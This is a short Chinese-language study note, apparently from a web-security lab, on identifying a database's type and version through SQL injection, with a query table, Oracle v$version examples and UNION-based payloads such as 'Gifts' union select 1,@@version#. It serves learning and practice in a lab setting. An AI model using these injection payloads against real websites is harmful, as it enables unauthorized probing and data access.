 ### 查询数据库类型和版本

| Database type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

### Oracle 中的 v$version

用于展示当前数据库的版本信息和相关组件的版本。

```
SELECT * FROM V$VERSION;

SELECT * FROM V$VERSION WHERE BANNER LIKE 'Oracle Database%';

SELECT * FROM V$VERSION WHERE BANNER LIKE '%Enterprise Edition%';

SELECT * FROM V$VERSION WHERE BANNER LIKE 'PL/SQL%';
```

它是 Oracle 内部视图的一部分，主要用于监控和诊断数据库实例的运行状态。

### 实验

```
# 对于 oracle 来说每个 select 语句都需要指定一个表。即使是常量值，也需要指定 dual 一个虚拟表。
Accessories' union select null,null from dual --+

Accessories' union select null,BANNER from v$version --+
```

### ![image-20250520162711639](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520162711639.png)

```
# 对于 mysql 或 Microsoft，执行如下 payload。
Gifts' union select 1,@@version#
```

![image-20250520163140632](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520163140632.png)